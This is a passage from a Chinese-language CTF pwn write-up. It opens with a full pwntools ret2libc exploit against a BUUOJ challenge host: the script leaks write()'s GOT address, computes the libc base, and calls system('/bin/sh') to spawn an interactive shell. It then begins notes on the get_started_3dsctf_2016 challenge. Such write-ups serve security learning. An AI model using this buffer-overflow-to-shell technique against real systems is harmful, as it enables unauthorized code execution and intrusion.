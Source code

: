 ```python
from pwn import *
#from LibcSearcher import *
context(log_level='debug',arch='i386',os='linux')     #32位
host='node4.buuoj.cn'
port=26485
io=remote(host,port)
#io=process("./pwn")
elf=ELF("./pwn")
libc = ELF("./libc")

buf = '\0' + 'a'*6 + '\xff' 
vulnerable_addr = 0x080487D0
io.sendline(buf)
io.recvuntil(b"Correct\n")

write_plt = elf.plt["write"]
write_got = elf.got["write"]
payload1 = b'A'*235 + p32(write_plt) + p32(vulnerable_addr) + p32(1) + p32(write_got) + p32(4)
io.sendline(payload1)
write_addr=u32(io.recv()[0:4]) 
#print(hex(write_addr))

#libc=LibcSearcher('write',write_addr) 
base_addr = write_addr - libc.symbols['write']
system_addr = base_addr + libc.symbols['system']
bin_sh = base_addr + next(libc.search(b'/bin/sh'))

payload2 = b'A'*235 + p32(system_addr) + cyclic(4) + p32(bin_sh)
io.sendline(payload2)
io.interactive()
```

# *get_started_3dsctf_2016

32位，静态链接，NX打开

![image-20220313021139717](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191853168.png)

看到时静态链接，第一时间想到是构建ROP链，但NX是打开的，又没在数据段找到合适的变量，用这个方法我就没有做出来

可以找到get_flag这个函数，只要a1和a2在规定值时就可以得到flag，但这题如果程序不正常退出，是不会回显flag的（由于这题没有出现setbuf(stdin，0)，所以本题的输出是缓存在服务器本地的）

fopen(fname,"rt")：只读打开一个文本文件，只允许读数据

![image-20220313021530309](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191853521.png)

![image-20220313021523298](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191853998.png)

值得注意的是这题中IDA中给出的偏移量并不准确，我这里用gdb依然查看不了偏移量（网上有说peda可以查看）

![image-20220313022959315](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191853767.png)
